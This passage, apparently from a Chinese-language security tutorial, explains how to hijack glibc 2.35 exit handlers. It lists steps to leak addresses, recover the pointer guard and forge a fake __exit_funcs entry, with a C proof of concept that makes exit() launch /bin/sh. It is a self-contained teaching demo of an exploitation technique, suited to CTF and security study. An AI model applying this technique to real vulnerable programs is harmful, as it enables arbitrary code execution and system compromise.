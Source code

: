 __注:__

函数指针`f->func.cxa.fn`, 偏移为`&initial+0x18`; 函数参数`f->func.cxa.arg`, 偏移为`&initial+0x20`; 第二个参数由exit传入

如果开启了`ASLR`会导致`libc`和`ld`的偏移不固定，无法通过`libc`基地址计算`_dl_fini`函数地址

### 攻击 `__exit_funcs`

1. 泄露 `libc` 地址(如果开启`ASLR`还需要知道 `ld` 地址)
2. 泄露`__exit_funcs`和`initial`(`initial:0x18`)的值
3. 计算 `tcbhead_t.pointer_guard` 的值(`pointer_guard = _dl_fini ^ (f->func.cxa.fn(initial:0x18) >> 0x11)`, `>>`为循环右移)
4. 伪造一个`fake_initial`，并设置数据，设置函数指针和参数的方式和[攻击 `initial`](#攻击-initial)相同, 详情见示例
5. 修改`__exit_funcs`指向`fake_initial`
6. `exit`即可触发漏洞

__示例:__

```C
/**
 * 关闭ASLR  : sudo sysctl -w kernel.randomize_va_space=0
 * glibc版本 : glibc-2.35
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// 循环右移
#define ROR64(x, n) (((x) >> (n)) | ((x) << (64 - (n))))
// 循环左移
#define ROL64(x, n) (((x) << (n)) | ((x) >> (64 - (n))))

char binsh[] = "/bin/sh";

int main()
{
    // 泄露地址:glibc2.35.so
    size_t libc_base = (size_t)&system - 0x50d70;
    size_t *__exit_funcs = (size_t *)(libc_base + 0x21a838);
    size_t *_dl_fini = (size_t *)(libc_base + 0x3c9040);

    size_t cxafct = *(size_t *)(*__exit_funcs + 0x18);

    // 计算出tcbhead_t.pointer_guard的值
    size_t pointer_guard = ((size_t)_dl_fini) ^ ROR64(cxafct, 0x11);

    // 伪造fake_initial
    size_t *fake_initial = malloc(0x20);
    *(fake_initial + 0) = 0;   // 任意
    *(fake_initial + 1) = 100; // 不为0
    *(fake_initial + 2) = 4;   // 通常为4
    *(fake_initial + 3) = ROL64(((size_t)&system) ^ pointer_guard, 0x11);
    *(fake_initial + 4) = (size_t)binsh;

    // 将__exit_funcs指向fake_initial
    *__exit_funcs = (size_t)fake_initial;

    // 触发漏洞
    exit(-1);

    return 0;
}
```
